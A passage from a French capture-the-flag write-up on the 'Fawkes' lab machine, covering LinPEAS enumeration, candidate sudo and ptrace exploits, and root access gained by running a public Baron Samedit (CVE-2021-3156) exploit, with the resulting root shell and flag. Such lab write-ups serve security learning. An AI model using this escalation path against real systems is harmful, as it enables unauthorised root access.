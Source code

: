 ```plain
       valid_lft forever preferred_lft forever
5: vethb876b05@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether ba:74:7e:23:ed:5c brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::b874:7eff:fe23:ed5c/64 scope link 
       valid_lft forever preferred_lft forever
```

On y récupère le second horcrux :  

```plain
horcrux_{NzogTmFHaU5pIHRIZSBTbkFrZSBkZVN0cm9ZZWQgQnkgTmVWaWxsZSBMb25HYm9UVG9t}
```

Last train to root
------------------

J'ai fait tourner [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) qui n'a rien remonté de bien critique ou avéré :  

```pl
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 363752 Apr 30  2018 /usr/share/doc/manpages/Changes.old.gz
-rw-r--r-- 1 root root 9731 Mar 19  2021 /usr/lib/modules/4.19.0-16-amd64/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-- 1 neville neville 1556 Apr  7  2021 /etc/passwd.bak
-rw-r--r-- 1 root root 4096 Dec  6 20:20 /sys/devices/virtual/net/vethb876b05/brport/backup_port
```

On a une backup du */etc/passwd* dont le propriétaire est *neville* alors que le fichier est dans */etc*, sans doute un indice.  

Il y a aussi [cet exploit PTRACE\_TRACEME](https://www.exploit-db.com/exploits/47133) mais sans entrer dans les détails il n'était pas exploitable ici (manque d'une condition).  

En cherchant sur exploit-db on trouve deux vulnérabilités qui peuvent toucher la version du Sudo.  

[La première](https://www.exploit-db.com/exploits/47502) nécessite malheureusement une entrée dans sudoers qui n'est pas le cas ici.  

[La seconde](https://www.exploit-db.com/exploits/49521) baptisée *Baron Samedit* a différents exploits trouvés ici et là. Ceux de exploit-db n'ont mené nul part, le module de Metasploit a échoué aussi. Finalement [ce dernier](https://github.com/worawit/CVE-2021-3156) est passé comme une lettre à la poste :  

```plain
$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),1000(neville)
# cd /root
# ls
horcrux3.txt
# cat horcrux3.txt
__     __    _     _                           _     _     
\ \   / /__ | | __| | ___ _ __ ___   ___  _ __| |_  (_)___ 
 \ \ / / _ \| |/ _` |/ _ \ '_ ` _ \ / _ \| '__| __| | / __|
  \ V / (_) | | (_| |  __/ | | | | | (_) | |  | |_  | \__ \
   \_/ \___/|_|\__,_|\___|_| |_| |_|\___/|_|   \__| |_|___/

     _       __            _           _ 
  __| | ___ / _| ___  __ _| |_ ___  __| |
 / _` |/ _ \ |_ / _ \/ _` | __/ _ \/ _` |
| (_| |  __/  _|  __/ (_| | ||  __/ (_| |
 \__,_|\___|_|  \___|\__,_|\__\___|\__,_|

Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Hard
Machine Name: Fawkes
Horcruxes Hidden in this VM: 3 horcruxes
```